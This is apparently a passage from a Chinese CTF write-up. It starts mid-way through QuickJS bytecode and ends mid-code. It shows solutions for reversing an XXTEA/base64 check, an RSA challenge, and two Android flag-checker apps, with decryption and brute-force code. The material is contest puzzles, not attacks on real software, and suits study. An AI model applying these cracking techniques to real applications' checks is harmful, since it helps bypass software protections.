0x15, 0x43, 0xEB, 0x00, 0x00, 0x00, 0xC9, 0x06, 0xC9, 0x37, 
0xEC, 0x00, 0x00, 0x00, 0xF4, 0xEB, 0x1D, 0x38, 0xEC, 0x00, 
0x00, 0x00, 0x11, 0x39, 0xE8, 0x00, 0x00, 0x00, 0xC9, 0x38, 
0xE8, 0x00, 0x00, 0x00, 0x42, 0xED, 0x00, 0x00, 0x00, 0x24, 
0x00, 0x00, 0xC9, 0xEC, 0x25, 0x06, 0xC9, 0x37, 0x4D, 0x00, 
0x00, 0x00, 0xF4, 0xEB, 0x0F, 0x38, 0x4D, 0x00, 0x00, 0x00, 
0x11, 0x39, 0xE8, 0x00, 0x00, 0x00, 0xC9, 0xEC, 0x0D, 0x04, 
0xEE, 0x00, 0x00, 0x00, 0x11, 0x39, 0xE8, 0x00, 0x00, 0x00, 
0xC9, 0x38, 0xE7, 0x00, 0x00, 0x00, 0x38, 0xE8, 0x00, 0x00, 
0x00, 0xEF, 0xCD, 0x28, 0xDE, 0x03, 0x01, 0x13, 0xF1, 0x00, 
0x3E, 0xB0, 0x01, 0x58, 0x00, 0x05, 0x36, 0x00, 0x09, 0x40,0x35, 0x3F, 0x49, 0x3F, 0x3F, 0x0D, 0x41, 0x0E, 0x43, 0x06, 
0x00, 0xC2, 0x03, 0x02, 0x03, 0x02, 0x09, 0x00, 0x01, 0x6E, 
0x05, 0xE0, 0x03, 0x00, 0x01, 0x00, 0xE2, 0x03, 0x00, 0x01, 
0x00, 0xE4, 0x03, 0x00, 0x00, 0x00, 0xE6, 0x03, 0x00, 0x01, 
0x00, 0xE8, 0x03, 0x00, 0x02, 0x00, 0xD1, 0xE9, 0xC9, 0xD1, 
0xC5, 0xB6, 0x9E, 0x47, 0xBF, 0x00, 0xAD, 0xCA, 0xB5, 0xCB, 
0xC7, 0xC5, 0xA3, 0xEA, 0x3B, 0xD1, 0xC7, 0x71, 0x38, 0x99, 
0x00, 0x00, 0x00, 0x42, 0xF5, 0x00, 0x00, 0x00, 0xD1, 0xC7, 
0x47, 0xBE, 0xFF, 0x00, 0xAD, 0xD1, 0xC7, 0x47, 0xBD, 0x08, 
0xA2, 0xBE, 0xFF, 0x00, 0xAD, 0xD1, 0xC7, 0x47, 0xBD, 0x10, 
0xA2, 0xBE, 0xFF, 0x00, 0xAD, 0xD1, 0xC7, 0x47, 0xBD, 0x18, 
0xA2, 0xBE, 0xFF, 0x00, 0xAD, 0x24, 0x04, 0x00, 0x49, 0x93, 
0x02, 0xEC, 0xC2, 0xD2, 0xEA, 0x15, 0xD1, 0x42, 0x5B, 0x00, 
0x00, 0x00, 0xC1, 0x24, 0x01, 0x00, 0x42, 0xF6, 0x00, 0x00, 
0x00, 0xB5, 0xC6, 0x25, 0x02, 0x00, 0xD1, 0x42, 0x5B, 0x00, 
0x00, 0x00, 0xC1, 0x25, 0x01, 0x00, 0xDE, 0x03, 0x01, 0x0B, 
0x03, 0x12, 0x30, 0x27, 0x67, 0x35, 0x35, 0x49, 0x17, 0x12, 
0x69, 0x06, 0x00, 0x00, 0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 
0x0E, 0x43, 0x06, 0x00, 0xC4, 0x03, 0x02, 0x03, 0x02, 0x07, 
0x00, 0x00, 0x5D, 0x05, 0xEE, 0x03, 0x00, 0x01, 0x00, 0xE2, 
0x03, 0x00, 0x01, 0x00, 0xF0, 0x03, 0x00, 0x00, 0x00, 0xE0, 
0x03, 0x00, 0x01, 0x00, 0xE8, 0x03, 0x00, 0x02, 0x00, 0xD1, 
0xE9, 0xC9, 0x26, 0x00, 0x00, 0xCA, 0xB5, 0xCB, 0xC7, 0xC5, 
0xA3, 0xEA, 0x46, 0xC6, 0xC7, 0xB7, 0xA1, 0x71, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC7, 0x24, 0x01, 0x00, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC7, 0xB6, 0x9D, 0x24, 0x01, 0x00, 
0xBD, 0x08, 0xA0, 0xAF, 0xD1, 0x42, 0xF9, 0x00, 0x00, 0x00, 
0xC7, 0xB7, 0x9D, 0x24, 0x01, 0x00, 0xBD, 0x10, 0xA0, 0xAF, 
0xD1, 0x42, 0xF9, 0x00, 0x00, 0x00, 0xC7, 0xB8, 0x9D, 0x24, 
0x01, 0x00, 0xBD, 0x18, 0xA0, 0xAF, 0x49, 0xB9, 0x94, 0x02, 
0xEC, 0xB7, 0xD2, 0xEA, 0x06, 0xC6, 0xC6, 0xE9, 0xC5, 0x49, 
0xC6, 0x28, 0xDE, 0x03, 0x13, 0x0B, 0x03, 0x12, 0x17, 0x27, 
0x4E, 0x53, 0x53, 0x58, 0x1C, 0x12, 0x1D, 0x0E, 0x43, 0x06, 
0x00, 0xC6, 0x03, 0x02, 0x0B, 0x02, 0x06, 0x00, 0x04, 0xF8, 
0x01, 0x0D, 0xF4, 0x03, 0x00, 0x01, 0x00, 0xF6, 0x03, 0x00, 
0x01, 0x00, 0xE0, 0x03, 0x00, 0x00, 0x00, 0xF8, 0x03, 0x00, 
0x01, 0x00, 0xFA, 0x03, 0x00, 0x02, 0x00, 0xFC, 0x03, 0x00, 
0x03, 0x00, 0xFE, 0x03, 0x00, 0x04, 0x00, 0x80, 0x04, 0x00, 
0x05, 0x00, 0x82, 0x04, 0x00, 0x06, 0x00, 0x84, 0x04, 0x00, 
0x07, 0x00, 0x86, 0x04, 0x00, 0x08, 0x00, 0x88, 0x04, 0x00, 
0x09, 0x00, 0x8A, 0x04, 0x00, 0x0A, 0x00, 0xD1, 0xC1, 0xA9, 
0xEA, 0x03, 0xC1, 0x28, 0x38, 0xE2, 0x00, 0x00, 0x00, 0xD1, 
0x0A, 0xF0, 0xC9, 0x38, 0xE2, 0x00, 0x00, 0x00, 0xD2, 0x09, 
0xF0, 0xCA, 0xC5, 0xE9, 0xB6, 0x9E, 0xCB, 0xC5, 0xC7, 0x47, 
0xCC, 0xC5, 0xB5, 0x47, 0xC3, 0x04, 0xBF, 0x00, 0xC3, 0x05, 
0x38, 0x9D, 0x00, 0x00, 0x00, 0x42, 0x06, 0x01, 0x00, 0x00, 
0xBB, 0xBD, 0x34, 0xC7, 0xB6, 0x9D, 0x9B, 0x9D, 0x24, 0x01, 
0x00, 0xC3, 0x08, 0xB5, 0xC3, 0x09, 0xC2, 0x08, 0x90, 0xC3, 
0x08, 0xB5, 0xA5, 0x69, 0x9B, 0x00, 0x00, 0x00, 0xC2, 0x09, 
0xC2, 0x05, 0x9D, 0xBF, 0x01, 0xAD, 0xC4, 0x09, 0xB7, 0xA2, 
0xB8, 0xAD, 0xC3, 0x07, 0xB5, 0xC3, 0x0A, 0xC2, 0x0A, 0xC7, 
0xA3, 0xEA, 0x43, 0xC5, 0xC2, 0x0A, 0xB6, 0x9D, 0x47, 0xC3, 
0x04, 0xC8, 0xBA, 0xA2, 0xC2, 0x04, 0xB7, 0xA0, 0xAE, 0xC2, 
0x04, 0xB8, 0xA2, 0xC8, 0xB9, 0xA0, 0xAE, 0x9D, 0xC2, 0x09, 
0xC2, 0x04, 0xAE, 0xC6, 0xC2, 0x0A, 0xB8, 0xAD, 0xC2, 0x07, 
0xAE, 0x47, 0xC8, 0xAE, 0x9D, 0xAE, 0xC3, 0x06, 0xC5, 0xC2, 
0x0A, 0x71, 0xC5, 0xC2, 0x0A, 0x47, 0xC2, 0x06, 0x9D, 0xBF, 
0x02, 0xAD, 0x16, 0x49, 0xCC, 0x93, 0x0A, 0xEC, 0xB9, 0xC5,0xB5, 0x47, 0xC3, 0x04, 0xC8, 0xBA, 0xA2, 0xC2, 0x04, 0xB7, 
0xA0, 0xAE, 0xC2, 0x04, 0xB8, 0xA2, 0xC8, 0xB9, 0xA0, 0xAE, 
0x9D, 0xC2, 0x09, 0xC2, 0x04, 0xAE, 0xC6, 0xC2, 0x0A, 0xB8, 
0xAD, 0xC2, 0x07, 0xAE, 0x47, 0xC8, 0xAE, 0x9D, 0xAE, 0xC3, 
0x06, 0xC5, 0xC7, 0x71, 0xC5, 0xC7, 0x47, 0xC2, 0x06, 0x9D, 
0xBF, 0x03, 0xAD, 0x16, 0x49, 0xCC, 0xED, 0x5F, 0xFF, 0x38, 
0xE4, 0x00, 0x00, 0x00, 0x38, 0xE1, 0x00, 0x00, 0x00, 0xC5, 
0x09, 0xF0, 0x23, 0x01, 0x00, 0xDE, 0x03, 0x23, 0x15, 0x03, 
0x1C, 0x08, 0x08, 0x30, 0x30, 0x1D, 0x44, 0x85, 0x3F, 0x35, 
0x21, 0x30, 0x2B, 0xBC, 0x58, 0x17, 0x1C, 0xBC, 0x4E, 0x13, 
0x06, 0x00, 0x00, 0x20, 0x37, 0xEF, 0xC6, 0xE3, 0x41, 0x06, 
0x00, 0x00, 0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 0x06, 0x00, 
0x00, 0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 0x06, 0x00, 0x00, 
0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 0x0E, 0x43, 0x06, 0x00, 
0xC8, 0x03, 0x01, 0x03, 0x01, 0x04, 0x00, 0x01, 0x32, 0x04, 
0xB0, 0x01, 0x00, 0x01, 0x00, 0x8E, 0x04, 0x00, 0x00, 0x00, 
0x90, 0x04, 0x00, 0x01, 0x00, 0xE8, 0x03, 0x00, 0x02, 0x00, 
0xC1, 0xC9, 0xC1, 0xCA, 0xB5, 0xCB, 0xD1, 0x42, 0xF9, 0x00, 
0x00, 0x00, 0xC7, 0x91, 0xCB, 0x24, 0x01, 0x00, 0x42, 0x37, 
0x00, 0x00, 0x00, 0xBD, 0x10, 0x24, 0x01, 0x00, 0xCE, 0xE9, 
0xB6, 0xA9, 0xEA, 0x06, 0xBF, 0x00, 0xC6, 0x9D, 0xCA, 0xC6, 
0x94, 0x00, 0xC7, 0xD1, 0xE9, 0xA3, 0xEB, 0xD7, 0xC5, 0x28, 
0xDE, 0x03, 0x3E, 0x08, 0x03, 0x0D, 0x0D, 0x0E, 0x76, 0x35, 
0x12, 0x21, 0x07, 0x02, 0x30, 0x0E, 0x43, 0x06, 0x00, 0xCA, 
0x03, 0x01, 0x03, 0x01, 0x06, 0x00, 0x00, 0x52, 0x04, 0xB0, 
0x01, 0x00, 0x01, 0x00, 0x8E, 0x04, 0x00, 0x00, 0x00, 0xE8, 
0x03, 0x00, 0x01, 0x00, 0xF8, 0x03, 0x00, 0x02, 0x00, 0xC1, 
0xC9, 0xB5, 0xCA, 0xC6, 0xD1, 0xE9, 0xA3, 0xEA, 0x47, 0x38, 
0x09, 0x01, 0x00, 0x00, 0xD1, 0x42, 0x0A, 0x01, 0x00, 0x00, 
0xC6, 0xB6, 0x24, 0x02, 0x00, 0xBD, 0x10, 0xF0, 0xB9, 0xA0, 
0x38, 0x09, 0x01, 0x00, 0x00, 0xD1, 0x42, 0x0A, 0x01, 0x00, 
0x00, 0xC6, 0x8F, 0xCE, 0xB6, 0x24, 0x02, 0x00, 0xBD, 0x10, 
0xF0, 0xAF, 0xCF, 0xBE, 0xFF, 0x00, 0xAD, 0xCB, 0xC5, 0x38, 
0x99, 0x00, 0x00, 0x00, 0x42, 0xF5, 0x00, 0x00, 0x00, 0xC7, 
0x24, 0x01, 0x00, 0x9D, 0xC9, 0x93, 0x01, 0xEC, 0xB5, 0xC5, 
0x28, 0xDE, 0x03, 0x4A, 0x09, 0x03, 0x0D, 0x0D, 0x21, 0xDA, 
0x21, 0x58, 0x0D, 0x0D, 0x0E, 0x43, 0x06, 0x00, 0xCC, 0x03, 
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x29, 0xDE, 
0x03, 0x56, 0x01, 0x03, 0x0E, 0x43, 0x06, 0x00, 0x00, 0x01, 
0x09, 0x01, 0x04, 0x00, 0x00, 0xE6, 0x01, 0x0A, 0xB0, 0x01, 
0x00, 0x01, 0x00, 0x8E, 0x04, 0x00, 0x00, 0x00, 0x90, 0x04, 
0x00, 0x01, 0x00, 0x96, 0x04, 0x00, 0x02, 0x00, 0x98, 0x04, 
0x00, 0x03, 0x00, 0x9A, 0x04, 0x00, 0x04, 0x00, 0x9C, 0x04, 
0x00, 0x05, 0x00, 0x9E, 0x04, 0x00, 0x06, 0x00, 0xA0, 0x04, 
0x00, 0x07, 0x00, 0xE8, 0x03, 0x00, 0x08, 0x00, 0xC1, 0xC9, 
0xC1, 0xCC, 0xC1, 0xC3, 0x07, 0xB5, 0xC3, 0x08, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC2, 0x08, 0x91, 0xC3, 0x08, 0x24, 
0x01, 0x00, 0xCA, 0xD1, 0x42, 0xF9, 0x00, 0x00, 0x00, 0xC2, 
0x08, 0x91, 0xC3, 0x08, 0x24, 0x01, 0x00, 0xCB, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC2, 0x08, 0x91, 0xC3, 0x08, 0x24, 
0x01, 0x00, 0xCC, 0xC6, 0xB7, 0xA1, 0xC3, 0x04, 0xC6, 0xB8, 
0xAD, 0xB9, 0xA0, 0xC7, 0xB9, 0xA1, 0xAF, 0xC3, 0x05, 0xC7, 
0xBD, 0x0F, 0xAD, 0xB7, 0xA0, 0xC8, 0xBB, 0xA1, 0xAF, 0xC3, 
0x06, 0xC8, 0xBD, 0x3F, 0xAD, 0xC3, 0x07, 0x38, 0x11, 0x01, 
0x00, 0x00, 0xC7, 0xEF, 0xEA, 0x09, 0xBD, 0x40, 0xC4, 0x07, 
0xC3, 0x06, 0xEC, 0x0E, 0x38, 0x11, 0x01, 0x00, 0x00, 0xC8, 
0xEF, 0xEA, 0x05, 0xBD, 0x40, 0xC3, 0x07, 0xC5, 0x38, 0xE6, 
0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 0x00, 0x42, 0x12,0x01, 0x00, 0x00, 0xC2, 0x04, 0x24, 0x01, 0x00, 0x9D, 0x38, 
0xE6, 0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 0x00, 0x42, 
0x12, 0x01, 0x00, 0x00, 0xC2, 0x05, 0x24, 0x01, 0x00, 0x9D, 
0x38, 0xE6, 0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 0x00, 
0x42, 0x12, 0x01, 0x00, 0x00, 0xC2, 0x06, 0x24, 0x01, 0x00, 
0x9D, 0x38, 0xE6, 0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 
0x00, 0x42, 0x12, 0x01, 0x00, 0x00, 0xC2, 0x07, 0x24, 0x01, 
0x00, 0x9D, 0xC9, 0xC1, 0xD0, 0xCF, 0xCA, 0xC1, 0xC4, 0x07, 
0xC4, 0x06, 0xC4, 0x05, 0xC3, 0x04, 0xC2, 0x08, 0xD1, 0xE9, 
0xA3, 0x6A, 0x2A, 0xFF, 0xFF, 0xFF, 0xC5, 0x28, 0xDE, 0x03, 
0x59, 0x18, 0x03, 0x0D, 0x0D, 0x12, 0x13, 0x4E, 0x4E, 0x4E, 
0x1C, 0x3A, 0x3F, 0x21, 0x30, 0x21, 0x3A, 0x18, 0x08, 0x6C, 
0x6C, 0x6C, 0x71, 0x17, 0x30, 0x35, 0x0E, 0x43, 0x06, 0x00, 
0xCE, 0x03, 0x01, 0x04, 0x01, 0x04, 0x00, 0x00, 0x84, 0x01, 
0x05, 0xD0, 0x03, 0x00, 0x01, 0x00, 0xB0, 0x01, 0x00, 0x00, 
0x00, 0xA6, 0x04, 0x00, 0x01, 0x00, 0xA8, 0x04, 0x00, 0x02, 
0x00, 0xAC, 0x01, 0x00, 0x03, 0x00, 0xD1, 0xE9, 0xB6, 0xA3, 
0xEA, 0x0D, 0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 0xEE, 0x00, 
0x00, 0x00, 0xEF, 0x29, 0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 
0x16, 0x01, 0x00, 0x00, 0xD1, 0xB5, 0x47, 0x9D, 0xEF, 0x0E, 
0xD1, 0xB5, 0x47, 0xC9, 0x38, 0xE6, 0x00, 0x00, 0x00, 0x42, 
0xEB, 0x00, 0x00, 0x00, 0xC5, 0x24, 0x01, 0x00, 0xCA, 0x04, 
0x17, 0x01, 0x00, 0x00, 0x11, 0x39, 0x18, 0x01, 0x00, 0x00, 
0x0E, 0x38, 0xE3, 0x00, 0x00, 0x00, 0xC6, 0x38, 0x18, 0x01, 
0x00, 0x00, 0xF0, 0xCF, 0xE9, 0xBD, 0x70, 0xAA, 0xEA, 0x0D, 
0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 0xEE, 0x00, 0x00, 0x00, 
0xEF, 0x29, 0x04, 0x19, 0x01, 0x00, 0x00, 0xCC, 0xC7, 0xC8, 
0xA9, 0xEA, 0x0E, 0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 0x1A, 
0x01, 0x00, 0x00, 0xEF, 0x0E, 0x29, 0x38, 0x15, 0x01, 0x00, 
0x00, 0x04, 0xEE, 0x00, 0x00, 0x00, 0xEF, 0x29, 0xDE, 0x03, 
0x76, 0x11, 0x03, 0x21, 0x3B, 0x08, 0x54, 0x17, 0x4F, 0x3F, 
0x40, 0x26, 0x3B, 0x09, 0x21, 0x1D, 0x3F, 0x09, 0x3C, 0x00, 
0x00, 0x00, 0xDD, 0x08, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
0x00, 0x00, 0x00, 0x00}; 
int main(int argc, char **argv) { 
JSRuntime *rt; 
JSContext *ctx; 
rt = JS_NewRuntime(); 
ctx = JS_NewContextRaw(rt); 
JS_SetModuleLoaderFunc(rt, NULL, js_module_loader, NULL); 
JS_AddIntrinsicBaseObjects(ctx); 
JS_AddIntrinsicDate(ctx); 
JS_AddIntrinsicEval(ctx); 
JS_AddIntrinsicStringNormalize(ctx); 
JS_AddIntrinsicRegExp(ctx); 
JS_AddIntrinsicJSON(ctx); 
JS_AddIntrinsicProxy(ctx); 
JS_AddIntrinsicMapSet(ctx); 
JS_AddIntrinsicTypedArrays(ctx); 
JS_AddIntrinsicPromise(ctx); 
JS_AddIntrinsicBigInt(ctx); 
js_std_add_helpers(ctx, argc, argv); 
js_std_eval_binary(ctx, qjsc_s, sizeof(qjsc_s), 0); 
js_std_loop(ctx); 
JS_FreeContext(ctx);JS_FreeRuntime(rt); 
return 0; 
}
```
再照上文编译并运行程序，即可得到一段比较直观的输出
然后逐一分析还原文件
经过分析可以知道  先进行了一个base64加密
然后进行了一个xxtea
base64我们可以在表上看到  有编码表

当往下分析到

0x9e3779b9很明显就是xxtea解密
这时 我们就可以
先用xxtea解密

```c++
#include <stdio.h>  
#include <stdint.h>  
#define DELTA 0x9e3779b9  
#define MX (((z>>5^y<<2) + (y>>3^z<<4)) ^ ((sum^y) + (key[(p&3)^e] ^ z)))  
  
void btea(uint32_t *v, int n, uint32_t const key[4])  
{  
    uint32_t y, z, sum;  
    unsigned p, rounds, e;  
    if (n > 1)            /* Coding Part */  
    {  
        rounds = 6 + 52/n;  
        sum = 0;  
        z = v[n-1];  
        do  
        {  
            sum += DELTA;  
            e = (sum >> 2) & 3;  
            for (p=0; p<n-1; p++)  
            {  
                y = v[p+1];  
                z = v[p] += MX;  
            }  
            y = v[0];  
            z = v[n-1] += MX;  
        }  
        while (--rounds);  
    }  
    else if (n < -1)      /* Decoding Part */  
    {  
        n = -n;  
        rounds = 6 + 52/n;  
        sum = rounds*DELTA;  
        y = v[0];  
        do  
        {  
            e = (sum >> 2) & 3;  
            for (p=n-1; p>0; p--)  
            {  
                z = v[p-1];  
                y = v[p] -= MX;  
            }  
            z = v[n-1];  
            y = v[0] -= MX;  
            sum -= DELTA;  
        }  
        while (--rounds);  
    }  
}  
  
  
int main()  
{  
    //uint32_t v[2]= {1,2};  
    //uint32_t const k[4]= {2,2,3,4};
    int8_t cipher[] = {5, 174,208,206,68, 31,128,181, 188, 54, 175,76,105, 133,9,252,108,195,201,113,70,53,61,
    229, 169, 92, 106,190, 160,127, 212, 167,7,9,50, 216, 106,195, 45,98, 134, 114, 165,145, 35,229,151,35, 49,219,
    93,255,231,5,115,98};
    const int8_t key[] ="no_thing_is_true";
    uint32_t *v = (uint32_t *)cipher;
    const uint32_t *k  =(const uint32_t *)key;
    int n= sizeof(cipher)/ sizeof(uint32_t);
    //n的绝对值表示v的长度，取正表示加密，取负表示解密  
    // v为要加密的数据是两个32位无符号整数  
    // k为加密解密密钥，为4个32位无符号整数，即密钥长度为128位  
    // printf("加密前原始数据：%u %u\n",v[0],v[1]);  
    // btea(v, n, k);  
    // printf("加密后的数据：%u %u\n",v[0],v[1]);  
    btea(v, -n, k);  
    // printf("解密后的数据：%u %u\n",v[0],v[1]);
    printf("%s",cipher);
    printf("\n");
    return 0;  
}
```

之后进行base64解密

得知flag

# crypto
### 拟态签到题
base64解码即可
### onlyrsa
描述:RSA say : My birthday is in November instead of October
考虑base=11下的多项式，跟cryptoctf2020的decentRSA一样
当时没电脑，ipad做题...在线sage：

分解出两个，只有p是素数，直接在Zmod(p)下求解即可

```python
from libnum import *
p=16249579302136675275737472669394168521026727339712083110552530420348131906271518040549529167354613121510156841352658645018277766962773342379074137176993546193979134201416444089373463960664685121485689105129185197998903479181913613273443541075619342246119648308939006396145123630152777688592984718084919469059
n=264048827496427248021277383801027180195275776366915828865010362454006394906519399441496561006668252031429735502465174250525698696973129422193405161920872162928097673289330345041221985548078586423910246601720647996170161319016119241836415788315729493164331517547663558380515400720081995290120793014108439083514403659082115510258023834737471488528527557960636984676435543300074504679264476413252780514962473070445293528877641502742438571110744667739728450283295649865745629276142949963507003094791773183928894536793857609738113546410753895719242547720815692998871947957214118354127328586542848234994500987288641595105
e=65537
c=76196483810925191371357319946893762223027002702624516192769497540954799651198719100683206759706879828894501526423422596543748404479640715319801018211652987852179907519286760601944889601355220646374788026632971331786307898234821477134265724962397355614076896148563340833323366935479885600112872998594315513803419069126624158092821269145991266528158747750965226483644012365861166608598063649804899693010576080857540523307078138634628539419178875838147396170651777949577793359622498517581948006585916952705460782942977789615065947303447566918741750017127110484065354974088489869377128636357092420660532261674969708694
phi=(p-1)*(q-1)
phi=p-1
d=invmod(e, phi)
m=pow(c,d,p)
print(n2s(m))
```

# mobile
## hahahaha
8个输入框，分别输入8个16进制数（必须大写）

题目逻辑会将当前输入的字符串转换成16进制数字，并且取出当前每个数字的最高bit作为一个特殊的处理变量（用于选择hash算法）

当最后一个数字的最高bit不为1的时候，会选择使用HMacSha256作为hash手法，不过此时的key会有所差异


当最高位为1的时候，分别使用如下的算法：
switch(signs & 7)
Case 5:SHA384
Case 4:SHA256
Case 3:SHA224
Case 2:SHA1
Case 1:MD5 但是存在表替换的情况
Case 0:MD2 但是存在表替换的情况

后来发现漏了一段，在函数的最开头会将密钥（keys）计算其对应的MD5存起来，然后会将下标signss^0xAB

考虑到最后输入，会将我们的输入打印出来，所以此时说明输入的数组去掉最高位之后，必定是可见字符，加上app中提示了说不会出现小写字母，于是直接把java代码抠出来，爆破可见字符写一个爆破程序即可得到答案。

## studydesk
逆向相关逻辑
```java
public class MainActivity$a implements View$OnClickListener {
    public MainActivity$a(MainActivity arg1) {
        this.b = arg1;
        super();
    }
    public void onClick(View arg15) {
        String v11;
        BigDecimal v10;
        int v4_1;
        int v9;
        KeyListener v7;
        String v15 = this.b.o.getText().toString();
        int v2 = 0x20;
        if(v15.length() != v2) {
        }
        else {
            byte[] v0 = class_a.arr;
            ByteArrayOutputStream v3 = new ByteArrayOutputStream();
            StringBuilder v4 = new StringBuilder();
            int v5 = v0.length;
            int v6 = 0;
            while(true) {
                v7 = null;
                if(v6 < v5) {
                    v9 = v15.indexOf(v0[v6]);
                    if(v9 == -1) {
                        v0 = ((byte[])v7);
                    }
                    else {
                        v4.append(Integer.toBinaryString((v9 & 0x3F) + v2).substring(1));
                        ++v6;
                        continue;
                    }
                }
                else {
                    break;
                }
                goto label_56;
            }
            int v0_1;
            for(v0_1 = 0; v0_1 < (40 - v4.length() % 40) % 40; ++v0_1) {
                v4.append('0');
            }
            String v0_2 = v4.toString();
            for(v2 = 0; v2 < v0_2.length(); v2 = v4_1) {
                v4_1 = v2 + 8;
                v3.write(((byte)(Integer.parseInt(v0_2.substring(v2, v4_1), 2) & 0xFF)));
            }
            v0 = v3.toByteArray();
        label_56:
            if(v0 == null) {
                goto label_157;
            }
            BigDecimal v2_1 = new BigDecimal("1");
            BigDecimal v3_1 = new BigDecimal("0");
            BigDecimal v4_2 = new BigDecimal("6");
            MathContext v5_1 = new MathContext(360, RoundingMode.HALF_UP);
            MathContext v6_1 = new MathContext(720, RoundingMode.HALF_UP);
            v9 = 0;
            while(true) {
                v2_1 = class_a.func(new BigDecimal("2").subtract(class_a.func(new BigDecimal(4).subtract(v2_1.multiply(v2_1, v6_1), v6_1), v6_1)), v6_1);
                v4_2 = new BigDecimal("2").multiply(v4_2, v5_1);
                v10 = new BigDecimal("0.5").multiply(v2_1.multiply(v4_2, v5_1), v5_1);
                v11 = "StudyDesk:";
                if(v10.compareTo(v3_1) == 0) {
                    break;
                }
                ++v9;
                if(v9 % 30 == 0) {
                    StringBuilder v3_2 = a.e("running: ");
                    v3_2.append(v9 / 6);
                    v3_2.append("%");
                    Log.i(v11, v3_2.toString());
                }
                v3_1 = v10;
            }
            Log.i(v11, "running: 100%");
            String v2_2 = v10.toString().replace(".", "");
            int v3_3 = 0;
            while(true) {
                if(v3_3 < v2_2.length()) {
                    v4_1 = v3_3 + 2;
                    if((((byte)(Integer.parseInt(v2_2.substring(v3_3, v4_1), 10) & 0xFF))) != v0[v3_3 / 2]) {
                        v0_1 = 0;
                    }
                    else {
                        v3_3 = v4_1;
                        continue;
                    }
                }
                else {
                    break;
                }
                goto label_120;
            }
            v0_1 = 1;
        label_120:
            if(v0_1 == 0) {
                goto label_157;
            }
            Toast.makeText(this.b, "Congs, good student!", 0).show();
            this.b.q.setText(String.format("flag{%s}", v15));
            this.b.p.setText("Congs!");
            this.b.p.setClickable(false);
            this.b.o.setKeyListener(v7);
            return;
        }
    label_157:
        Toast.makeText(this.b, "Nonono, study harder please", 0).show();
    }
}
public class class_a {
    public static byte[] arr;
    public static {
        class_a.arr = new byte[]{0x73, 0x6F, 43, 0x72, 0x74, 45, 0x30, 36, 84, 98, 89, 36, 38, 66, 38, 43, 84, 0x79, 50, 101, 101, 43, 100, 87, 69, 0x6F, 51, 66, 89, 49, 69, 51, 101, 51, 53, 0x74, 45, 98, 98, 0x72, 50, 36, 98, 50, 85, 85, 85, 107, 66, 36, 53, 51, 0x6F, 0x72, 89, 89, 66, 50, 33, 66, 0x5F, 66, 101, 0x79, 0x5F, 0x40, 33, 66, 50, 0x40, 85, 85, 45, 43, 36, 50, 0x74, 0x30, 85, 0x73, 0x5F, 0x40, 49, 0x72, 50, 101, 101, 51, 51, 43, 53, 51, 53, 51, 85, 50, 0x40, 0x79, 53, 36, 0x40, 69, 89, 98, 45, 0x6F, 101, 36, 97, 66, 100, 0x30, 0x73, 97, 0x30, 36, 0x6F, 101, 50, 0x5F, 49, 0x30, 0x40, 89, 0x74, 85, 0x30, 85, 0x73, 89, 43, 89, 97, 0x30, 89, 0x72, 97, 100, 38, 50, 0x74, 51, 98, 0x75, 0x5F, 50, 0x74, 0x73, 0x6F, 84, 98, 89, 69, 0x6F, 100, 0x30, 0x6F, 98, 89, 0x72, 0x40, 50, 36, 66, 89, 101, 0x72, 51, 84, 51, 50, 36, 38, 0x40, 0x30, 53, 51, 0x30, 49, 97, 0x74, 89, 101, 85, 97, 66, 84, 97, 45, 43, 100, 89, 45, 0x30, 0x73, 0x30, 0x40, 97, 100, 98, 51, 100, 0x6F, 0x73, 50, 53, 101, 66, 101, 0x6F, 0x75, 50, 45, 0x5F, 51, 82, 50, 89, 87, 101, 50, 89, 0x30, 89, 101, 43, 89, 36, 38, 61, 101, 0x40, 84, 89, 0x5F, 66, 0x74, 49, 0x40, 87, 97, 43, 0x5F, 0x73, 43, 0x30, 89, 45, 84, 89, 33, 89, 107, 53, 85, 0x30, 98, 98, 0x5F, 50, 107, 66, 101, 0x6F, 51, 97, 33, 66, 97, 0x75, 51, 0x74, 51, 97, 0x40, 89, 107, 98, 51, 69, 0x40, 73, 0x5F, 0x30, 85, 0x74, 0x30, 97};
    }
    public static BigDecimal func(BigDecimal arg3, MathContext arg4) {
        BigDecimal v1;
        BigDecimal v0;
        for(v0 = arg3; true; v0 = v1) {
            v1 = new BigDecimal("0.5").multiply(v0.add(arg3.divide(v0, arg4), arg4), arg4);
            if(v1.compareTo(v0) == 0) {
                return v1;
            }
        }
        return v1;
    }
}
```
有调试环境的师傅可以给1EE下断点看下v2的值。然后去判断下一开始的情况去逆向。
  有java环境的也可以稍微改改代码然后跑下直接拿数值，对比的数据是不根据输入变化的,例如获取v2的直接代码
```java
import org.python.antlr.ast.Str;
import java.math.BigDecimal;
import java.math.MathContext;
import java.math.RoundingMode;
public class test {
    public static void main(String[] args) {
        BigDecimal v2_1 = new BigDecimal("1");
        BigDecimal v3_1 = new BigDecimal("0");
        BigDecimal v10;
        BigDecimal v4_2 = new BigDecimal("6");
        MathContext v5_1 = new MathContext(360, RoundingMode.HALF_UP);
        MathContext v6_1 = new MathContext(720, RoundingMode.HALF_UP);
        int v9 = 0;
        while (true) {
